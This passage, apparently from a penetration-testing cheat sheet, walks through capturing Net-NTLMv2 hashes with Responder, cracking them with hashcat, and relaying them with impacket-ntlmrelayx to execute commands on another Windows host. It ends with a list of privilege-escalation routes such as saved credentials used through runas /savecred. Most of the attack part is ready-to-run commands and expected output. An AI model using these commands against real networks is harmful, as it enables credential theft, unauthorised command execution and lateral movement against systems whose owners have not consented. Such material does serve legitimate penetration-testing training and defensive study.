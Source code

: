     ```sh
    \\<your_ip>\share\nonexistent.pdf
    ```


3. **Capture the Hash**: Responder will capture the challenge-response exchange. The hash will look something like this:

    ```sh
    [SMB] NTLMv2-SSP Hash Captured: user::domain:challenge:response_hash
    ```

4. **Crack the Hash**: Use a tool like Hashcat with mode 5600 to crack the captured hash offline.

    ```sh
    hashcat -m 5600 ntlmv2.hash /usr/share/wordlists/rockyou.txt
    ```

---

### Relaying Net-NTLMv2

This technique is used when you have captured a user's Net-NTLMv2 hash but cannot crack it. The core idea is to forward this hash to another machine for authentication, hoping the user has administrative privileges on that target machine.

**Requirement**: The success of this attack against a user who is not the default local Administrator depends on UAC Remote Restrictions being disabled on the target machine.

1. **Setup (on Attacker Machine)**: Use `impacket-ntlmrelayx` to listen for a connection and relay it to the target, executing a command upon success.

    ```sh
    impacket-ntlmrelayx -t [Target_2_IP] -c "[Command_to_Execute]" -smb2support
    ```

2. Trigger (on Source Machine: TARGET_1)

    ```sh
    ls \\<your_ip>\share
    ```

3. Relay (by Attacker Machine)

    The `ntlmrelayx` tool intercepts the authentication attempt from TARGET_1. It does not authenticate it. Instead, it forwards (relays) the hash to the specified target, TARGET_2.

4. Execution (on Target Machine: TARGET_2)

    TARGET_2 receives the relayed authentication request and validates the TARGET_2_admin hash. 

    **IF** TARGET_2_admin is a local administrator **AND** UAC remote restrictions are disabled, the authentication succeeds. TARGET_2 then executes the payload supplied by `ntlmrelayx` in Step 1.


---

## Other

* Saved Windows Credentials
  * cmdkey /list
  * runas /savecred /user:admin cmd.exe
* Scheduled Tasks
* Insecure Permissions on Service Executable
* Insecure Service Permissions
* Windows Privileges
* Unpatched Software